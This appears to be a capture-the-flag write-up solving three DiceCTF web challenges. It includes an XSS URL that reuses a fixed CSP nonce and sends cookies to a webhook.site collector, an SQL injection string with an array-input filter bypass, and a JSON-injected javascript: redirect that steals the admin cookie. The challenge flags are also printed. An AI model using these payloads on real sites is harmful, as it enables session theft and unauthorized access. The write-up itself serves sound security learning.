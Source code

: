 **[web/Babier CSP](https://babier-csp.dicec.tf/)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Babier_CSP/index.js)  
In line 8, it sets
```
const NONCE = crypto.randomBytes(16).toString('base64');
```
and in line 26
```
res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
```
This code just run 1 time, so NONCE doesn't change after run server, view source, we have nonce
```
+ZSveZwTAUqC6Pt9p+rgUg==
```
Host a server using webhook.site, redirect and get the cookie
```
https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%2BZSveZwTAUqC6Pt9p%2BrgUg==%3Elocation.href=%22https://webhook.site/c23c6a4a-1ad6-420d-a488-033f8762e6ed/?data=%22%2Bdocument.cookie%3C/script%3E
```
We got the secret
```
secret=4b36b1b8e47f761263796b1defd80745
```
Go to https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/
```
dice{web_1s_a_stat3_0f_grac3_857720}
```
**[web/Missing Flavortext](https://missing-flavortext.dicec.tf)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Missing_Flavortext/index.js)  
In line 34, it have filter ', let bypass it by using array input
```
username[]
```
It's a simple SQL Injection
```
admin' or '1' = '
```
We got the flag
```
dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
```

**[web/Web Utils](https://web-utils.dicec.tf/)**  
We have source code [app.zip](https://lhtthao0430.github.io/web/dice/Web_Utils/app)
In [app/route/api.js]((https://lhtthao0430.github.io/web/dice/Web_Utils/app/route/api.js), line 39 we have spread oparator
```javascript
database.addData({ type: 'paste', ...req.body, uid });
```
[View source](view-source:https://web-utils.dicec.tf/view/iuwnxMEs), in line 11 we have
```
if (type === 'link') return window.location = data;
```
We can change the req.body when createPaste to
```
{"data":"some data","type":"link"}
```
It will understand that is a link and run window.location = data;  
Host a server using webhook.site, redirect and get the cookie
```
{"data":"javascript:location.href='https://webhook.site/cf48efac-98a3-46d2-83af-141e6d39f133?data='+document.cookie","type":"link"}
```
Send the link to [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=web-utils) and get the flag
```
dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}
```